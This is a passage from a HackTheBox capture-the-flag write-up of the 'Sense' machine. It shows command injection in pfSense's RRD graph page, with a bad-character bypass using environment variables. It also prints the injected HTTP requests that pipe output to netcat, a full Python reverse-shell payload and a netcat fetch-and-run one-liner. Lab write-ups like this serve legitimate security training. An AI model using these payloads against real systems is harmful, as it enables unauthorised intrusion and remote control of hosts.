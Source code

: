 If we try to send a reverse shell we see that nothing comes on our opened port

If you send something without the / the result come to you

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-08-30-HackTheBox-Sense/2021-08-30-HackTheBox-Sense%2008:53:19.png)

If we send something with / we see that no results come to us

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-08-30-HackTheBox-Sense/2021-08-30-HackTheBox-Sense%2008:52:40.png)

So, how will we overcome this?

### Env

We will some the path variables, if there are some which is the /, we can use it and be happy

```
GET /status_rrd_graph_img.php?database=queues;env|nc+10.10.14.18+5555 HTTP/1.1
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-08-30-HackTheBox-Sense/2021-08-30-HackTheBox-Sense%2008:55:56.png)

Yes. We can use the `$HOME`

```
GET /status_rrd_graph_img.php?database=queues;echo+${HOME}|nc+10.10.14.18+5555 HTTP/1.1
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-08-30-HackTheBox-Sense/2021-08-30-HackTheBox-Sense%2008:57:29.png)

Awesome! We bypassed the bad char on Burp, this is really intersting when dealing with bad chars on web aplications.

We get a reverse shell in python in our machine

```py
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.18",443))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-08-30-HackTheBox-Sense/2021-08-30-HackTheBox-Sense%2009:06:24.png)

We execute it trough the BurpSuite and send to python

```sh
nc 10.10.14.18 1337|python&
```

On port 1337, will be being served a nc with the payload, and we must have a port opened to receive the connection back on 443

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-08-30-HackTheBox-Sense/2021-08-30-HackTheBox-Sense%2009:10:49.png)
